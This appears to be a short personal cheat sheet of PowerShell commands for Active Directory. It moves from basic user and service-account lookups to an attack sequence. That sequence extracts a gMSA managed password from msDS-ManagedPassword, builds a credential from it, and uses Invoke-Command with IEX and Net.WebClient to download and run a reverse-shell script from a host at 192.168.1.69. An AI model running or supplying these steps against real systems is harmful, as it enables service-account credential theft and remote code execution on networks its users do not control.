 # active directory

## get user account
```powershell
Get-AdUser AccountUsername
```

## get GMSA service account properties
```powershell
Get-AdServiceAccount AccountUsername -properties *
```

### get GMSA password and run commands
```powershell
# get password
$gmsa = Get-AdServiceAccount AccountUsername -properties msDS-ManagedPassword
$mp = $gmsa.'msDS-ManagedPassword'
# get secure string
$secpwd = (ConvertFrom-AdManagedPasswordBlob $mp).SecureCurrentPassword
$cred = New-Object System.Management.Automation.PSCredential('AccountUsername', $secpwd)
# test command
Invoke-Command -Computer 127.0.0.1 -Credential $cred -ScriptBlock { whoami }
# rev shell
Invoke-Command -Computer 127.0.0.1 -Credential $cred -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://192.168.1.69/rev.ps1') }
```

